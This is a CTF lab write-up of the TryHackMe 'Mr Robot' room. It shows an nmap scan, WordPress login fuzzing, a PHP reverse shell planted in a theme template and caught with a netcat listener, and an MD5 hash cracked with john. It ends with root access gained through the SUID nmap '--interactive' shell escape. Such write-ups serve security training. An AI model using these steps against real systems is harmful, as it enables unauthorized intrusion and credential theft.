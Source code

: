 ```yaml
---
title: MrRobot-writeup-THM
date: 2024-01-22
categories: [room, medium]
tags: [linux, privesc]    # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1582266255765-fa5cf1a1d501?q=80&w=2670&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/mrrobot">Mr Robot CTF</a>"
First of all I am going to do an nmap scan:

```bash
nmap -sC -sV -p- 10.10.81.92

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 05:44 EST
Nmap scan report for 10.10.81.92
Host is up (0.055s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.10 seconds
```

Here we can see port 80 and 443 open.

So I am going to expplore the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled.png)

This is the content of the web page.

From this point I just went and enumerate the webpage.

I also found the robots.txt which leads to the first flag.

inside the robots.txt there is also the location to a dictionary:

```bash
sort Downloads/fsocity.dic | uniq > uniq.txt
```

I ran this command because there were repeated words.

So, now I just need the username.

I tried with wpscan but I got nothing, So I tried to FUZZ the username with the sictionary, which if it is in the wordlist, should get a different response size, because wordpress tells you if is just the password that is wrong.

 And that’s exactly what happened:

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%201.png)

So, now I think of running the fuzzer again, with the username Elliot and with the dictionary as a password.

And we got the password:

 

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%202.png)

And I got in, from there I could create a reverse shell, but first let’s explore the dashboard.

In the Users section wee see that there is another User:

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%203.png)

Maybe it can be helpful later.

We can create a reverse shell just by copy and paste the pentestermonkey reverse shell, in the 404 template.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%204.png)

Then start the listener in the machine and we are in:

```bash
nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.81.92] 50199
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:10:26 up  1:29,  0 users,  load average: 0.00, 0.88, 2.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

We have 2 users:

```bash
cat /etc/passwd | grep "home"

syslog:x:101:104::/home/syslog:/bin/false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

We can’t cd into varnish, but we can cd in robot.

in his home we have 2 files:

```bash
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

As we can see the first one can be opened only by robot, but the second one can be read by anyone:

```bash
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

And looks like we got the md5 hash of robot

And we can simply brute force it:

```bash
john --format=Raw-md5 pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2024-01-22 07:19) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Using that we can use the command “su” to authenticate ourself as robot:

```bash
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

```bash
whoami
robot
```

After doing some enumeration, I noticed that we got a strange SUID:

 

```bash
find / -type f -perm -04000 -ls 2>/dev/null

 15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
 15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
 15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
 15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
 15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
 36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
 36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
 36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
 36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
 36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
 36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
 34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
 38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
 38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
```

Nmap can be used in interactive mode:

```bash
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

And after that we just want to go in the /root directory and retrieve the flag.
